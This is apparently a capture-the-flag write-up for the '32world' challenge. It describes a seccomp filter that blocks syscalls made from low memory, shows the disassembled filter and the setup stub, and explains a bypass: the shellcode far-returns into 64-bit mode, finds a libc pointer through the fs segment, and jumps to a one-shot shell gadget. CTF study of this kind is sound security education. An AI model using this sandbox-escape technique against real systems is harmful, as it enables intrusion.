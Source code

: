 ## 32world

As the name implies, the service is a x86-64 Linux binary that runs your shellcode after switching to the 32-bit capability segment. The challenge is non-trivial because the service uses a seccomp filter to prevent any system call that originates from code  within the first 4GB of memory (e.g. ```if ($ip >> 32) == 0, block syscall```).

Using david942j's seccomp-tools, we can disassemble the bpf filter:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0001: 0x15 0x00 0x01 0x00000000  if (A != 0x0) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

And with objdump we disassemble the stub that is prepended to your shellcode:

```
   0:   eb 42                   jmp    0x44
   2:   5e                      pop    rsi
   3:   48 31 c0                xor    rax,rax
   6:   48 31 db                xor    rbx,rbx
   9:   48 31 c9                xor    rcx,rcx
   c:   48 31 d2                xor    rdx,rdx
   f:   48 31 ed                xor    rbp,rbp
  12:   4d 31 c0                xor    r8,r8
  15:   4d 31 c9                xor    r9,r9
  18:   4d 31 d2                xor    r10,r10
  1b:   4d 31 db                xor    r11,r11
  1e:   4d 31 e4                xor    r12,r12
  21:   4d 31 ed                xor    r13,r13
  24:   4d 31 f6                xor    r14,r14
  27:   4d 31 ff                xor    r15,r15
  2a:   48 31 e4                xor    rsp,rsp
  2d:   48 89 fc                mov    rsp,rdi
  30:   48 31 ff                xor    rdi,rdi
  33:   67 c7 44 24 04 23 00    mov    DWORD PTR [esp+0x4],0x23
  3a:   00 00
  3c:   67 89 34 24             mov    DWORD PTR [esp],esi
  40:   48 31 f6                xor    rsi,rsi
  43:   cb                      retf
  44:   e8 b9 ff ff ff          call   0x2
```

The code zeroes all of the registers and switches to a new stack that is also zeroed. Then it pushes the x86 compatibility segment and 32-bit eip on to the stack, followed by a retf. After this point, we will be executing our 32-bit code.

The first step for our shellcode to bypass the seccomp filter is to switch back to 64-bit land.

```
  push 0x33
  call do_retf
  ... # 64-bit code here
do_retf:
  retf
```

Then, we need to find a pointer to some 64-bit code, which is difficult because the location of our stack and 32-bit code is randomized, and the original binary and its libraries are randomized due to ASLR. However, the fs segment register was not zeroed.

We start by reading the first pointer in the fs segment. This is always a pointer to the fs segment data. Then we used gdb to find a libc address that was at some offset from the fs segment data, e.g. ```*(fs:[0] - 0x58)```. Once we have a pointer to within libc, we can calculate the address of a one-shot gadget that gives us a shell.

At this point, it is as simple as jumping to the one-shot gadget. Since it is in libc, it will pass the checks in the seccomp filter.